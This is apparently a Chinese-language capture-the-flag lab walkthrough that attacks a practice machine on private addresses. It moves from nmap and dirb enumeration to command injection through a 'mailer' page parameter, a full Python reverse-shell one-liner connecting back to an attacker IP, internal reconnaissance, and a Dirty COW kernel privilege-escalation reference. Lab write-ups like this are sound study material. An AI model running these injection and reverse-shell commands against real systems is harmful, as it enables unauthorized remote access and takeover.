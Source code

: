 存在安全保护机制！！！

再次枚举：nmap 192.168.253.180 -p-
60080/tcp open     unknown
发现另外又开放了个60080端口！！


5、web信息枚举

访问：http://192.168.253.180:60080/
提示说转移到了另一个端口进行工作了！！更加的安全了！！

尝试看看还存在文件包含漏洞：
http://192.168.253.180:60080/?page=
Dude, dayu what are you trying over here?!


dirb http://192.168.253.180:60080/?page=
+ http://192.168.253.180:60080/?page=mailer (CODE:200|SIZE:1082)                                                                                                                                                             
访问：http://192.168.253.180:60080/?page=mailer
Coming Soon guys!
查看静态源码：
------------------

    <!--Better finish implementing this so dayu
 can send me all his loser complaints!-->
------------------

http://192.168.253.180:60080/?page=mailer&mail=


6、远程代码执行-webshell

http://192.168.253.180:60080/?page=mailer&mail=whoami
发现存在远程代码执行的一句话？

http://192.168.253.180:60080/?page=mailer&mail=which%20python
/usr/bin/python    ---存在python

nc -vlp 6666

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.253.166",9900));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



7、内部信息收集

1）Linux version 4.4.0-31-generic  （橙色）
2）[+] Searching tmux sessions
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions
waldo       650  0.0  0.2  29416  2992 ?        Ss   23:02   0:00 tmux new-session -d -s irssi
3）127.0.0.1:3306


8、提权

------------------------------------------------
方法1：内核提权  脏牛提权  CVE-2016-5195
https://www.exploit-db.com/exploits/40839
